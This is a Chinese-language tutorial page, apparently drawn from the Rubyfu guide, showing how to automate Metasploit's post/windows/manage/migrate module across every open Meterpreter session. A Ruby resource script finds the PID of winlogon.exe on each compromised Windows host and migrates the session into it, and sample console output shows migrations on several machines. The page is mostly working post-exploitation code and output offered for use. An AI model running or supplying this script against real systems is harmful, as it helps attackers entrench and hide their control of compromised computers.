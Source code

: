 该脚本直接引用自 Metasploit 示例

## 在多个 Meterpreter 会话上运行进程迁移

从 `msfconsole` 并在获取所有 Meterpreter 会话后，转到 `post/windows/manage/migrate`

```
use post/windows/manage/migrate 
```

> **注意：** 确保您有足够的权限迁移到指定的进程

然后创建一个包含 `<ruby> </ruby>` 标签的 `rc` 扩展名文件

**mass-mirgation.rc**

```
<ruby>
# Find PID by name
def find_pid(session_num, session, process)
  print_status("Session #{session_num} | Finding PID of processe #{process}")
    session.sys.process.get_processes().each do |x|
    proc_name, proc_id = x['name'].downcase, x['pid']

    return proc_id if proc_name == process.downcase
  end
end

process = 'winlogon.exe'
framework.sessions.each do |num,session|
  run_single("set PID #{find_pid(num, session, process)}")
  run_single("set SESSION #{num}")
  print_status("Running #{active_module.fullname} against session #{num}")
  run_single("run -j")
  sleep 1
end
</ruby> 
```

现在，从 msfconsole，

```
resource /home/rubyfu/mass-migration.rc 
```

结果将类似于

```
[*] Running post/windows/manage/migrate against session 2
[*] Post module running as background job

[*] Running module against WIN-NG118S6TM0H
[*] Current server process: shell.exe (3968)
[*] Spawning notepad.exe process to migrate to
[*] Session 2 | Finding PID of processe winlogon.exe
[+] Migrating to 3628
SESSION => 3
[*] Running post/windows/manage/migrate against session 3
[*] Post module running as background job
[*] Running module against HOME
[*] Current server process: shell.exe (2684)
[*] Session 3 | Finding PID of processe winlogon.exe
[+] Migrating to 2444
SESSION => 4
[*] Running post/windows/manage/migrate against session 4
[*] Post module running as background job
[*] Running module against WIN-8H4IDI0SR5A
[*] Current server process: shell.exe (2996)
[*] Session 4 | Finding PID of processe winlogon.exe
```
